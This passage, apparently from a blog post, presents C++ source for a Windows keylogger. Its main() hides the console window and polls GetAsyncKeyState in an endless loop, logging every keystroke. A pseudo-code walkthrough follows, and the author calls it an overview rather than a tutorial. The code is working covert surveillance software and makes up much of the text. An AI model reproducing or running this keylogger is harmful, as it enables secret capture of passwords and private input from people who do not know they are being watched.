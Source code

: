 ```cpp
        default:          writeToLog(&keyChar);
    }
    return true;
}

int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);

    while (true) {
        std::this_thread::sleep_for(std::chrono::milliseconds(10));
        for (int asciiVal { 8 }; asciiVal <= 255; ++asciiVal)
            if (GetAsyncKeyState(asciiVal) == -32767)
                if (asciiVal < 128)
                    writeKey(static_cast<unsigned char>(asciiVal));
                else
                    writeToLog("[" + std::to_string(asciiVal) + "]");
    }

    return 0;
}
```

Yup, that’s all of it.

Now let me be clear here, this is not a tutorial. I’m just going to give a general overview of how things work. Most of what I have to say should be clear from reading the code once, but for those who aren’t much acquainted with C++ or writing code in general, well you’re in luck.

In C++, everything starts executing from the main() function. So we’ll head there instinctively.

The following weird-looking pseudo-code describes the main() function:

```plaintext
main() {
    hide the console;

    infinite loop {
        PAUSE for a while else our computer will lag;
        for every single kind of character appearing on the keyboard {
            if any kind of key is being pressed {
                compare it with the current key being pressed
                if they're the same {
                    time to write the key to the log {
                        if it's an alphanumeric key {
                            write it as it is to the log;
                        } else if it's something else like a "." or "/" or a "[" {
                           write it's corresponding ASCII code to the log;
                       }
                   }
               }
           }
       }
   }
}
```
